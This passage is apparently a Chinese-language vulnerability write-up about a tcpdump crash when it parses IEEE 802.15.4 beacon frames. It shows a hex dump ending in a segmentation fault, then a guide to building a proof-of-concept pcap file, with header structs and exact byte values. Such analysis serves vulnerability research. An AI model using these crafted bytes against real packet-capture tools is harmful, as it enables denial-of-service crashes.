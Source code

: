 ```
05:06:08.000000 IEEE 802.15.4 Beacon packet 
	0x0000:  ffff ffe7 3710 e0ff ffff ffe8 270f f0ff  ....7.......'...
	0x0010:  ffff ffe9 16f2 e0ff ffff ffea 06f1 f0ff  ................
	0x0020:  ffff ffea f6d4 e0ff ffff ffeb e6d3 f0ff  ................
	0x0030:  ffff ffec d6b6 e011 0000 0050 7ead 0120  ...........P~...
	0x0040:  78ad 0100 0000 0041 0000 0070 82ad 0100  x......A...p....
	0x0050:  0000 0000 0000 0001 0000 0001 0000 0001  ................
	0x0060:  0000 0000 0000 0000 0000 006d 646e 7334  ...........mdns4
	0x0070:  5f6d 696e 696d 616c 0000 00f5 4f78 70ff  _minimal....Oxp.
	0x0080:  ffff fff6 3f5b 6011 0000 0000 0000 0078  ....?[`........x
......
    0x219f0:  0000 0000 0000 0000 0000 0000 0000 0000  ................
    0x21a00:  0000 0000 0000 0000 0000 0000 0000 0000  ................
    0x21a10:  0000 0000 0000 0000 0000 0000 0000 0000  ................
    0x21a20:  0000 0000 0000 0000 0000 0000 0000 0000  ................
    0x21a30:  0000 0000 0000 0000 0000 0000 0000 0000  ................
    0x21a40:  0000 0000 0000 0000 0000 0000 0000 0000  ................
    0x21a50:  0000 0000 0000 0000 0000 0000 0000 0000  ................
    0x21a60:  0000 0000 0000 0000 0000 0000 0000 0000  ................
Segmentation fault
```

### 3.1 构建自己的poc

所以如果想要自己构建一个针对该漏洞的poc，只要了解pcap文件的格式就可以了。

#### 3.1.1 24字节的pcap文件头

```c
struct pcap_file_header {
        bpf_u_int32 magic;		// D4 C3 B2 A1
        u_short version_major;	// 02 00
        u_short version_minor;	// 04 00
        bpf_int32 thiszone;     // 00 00 00 00
        bpf_u_int32 sigfigs;    // 00 00 00 00
        bpf_u_int32 snaplen;    // 10 00 00 00 最大抓包长度
        bpf_u_int32 linktype;   // 49 00 00 00 链路类型
};
```

#### 3.1.2 16字节的包头

```c
struct pcap_pkthdr {
        struct timeval ts;      // 00 00 00 00 00 00 00 00 
        bpf_u_int32 caplen;     // 08 00 00 00
        bpf_u_int32 len;       	// 08 00 00 00 这个值一般<=caplen，但也可以任意
};
```

#### 3.1.3 caplen字节的数据

```c
40 FF 00 00 00 00 00 00
```
